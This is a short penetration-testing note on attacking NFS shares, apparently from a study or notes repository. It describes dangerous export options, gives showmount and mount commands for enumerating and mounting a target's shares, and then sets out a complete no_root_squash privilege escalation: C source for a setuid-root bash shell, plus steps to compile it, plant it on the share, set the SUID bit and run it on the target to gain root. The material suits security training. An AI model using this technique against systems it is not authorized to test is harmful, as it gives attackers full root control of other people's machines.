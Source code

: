 Acts like SMB as a filesystem shared across the internet. However, purely Linux/Unix and uses a different protocol. Since version 4, can be used jointly with Kerberos.

Uses port 2049 and for version<4, uses port 111

NFS protocol has no authentication mechanism, this is delegated RPC protocol behind (ONC-RPC/SUN-RPC). Most of the time will rely on UID/GID

### Dangerous settings

- rw: read-write access (compared to ro: read only)
- insecure: can use ports above 1024 (which can be set by any user, <1024 only root)
- nohide: if another folder mounted below another one, will be exported via its own entry
- no_root_squash: remote users will be root and created files will have UID/GID 0

### Exploit

To check which folder where mounted by a target, we can use `showmount -e $IP`

Then to mount the filesystem: `mount -t nfs $IP:/path/to/share ./mylocaldir -o nolock`

To unmount it: `unmount ./mylocaldir`

### no_root_squash

This is an option that allows users to connect as root with their local root users, enabling attack via setUID.
Just upload a binary as your local root user, for example shell.c:
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```
Compile it and copy it on the mount as a local root, then `chmod u+s <shell binary>`

Connect back to the attacked host and you can execute this binary and become root.

PS: to check options set on the mount, check `/etc/exports`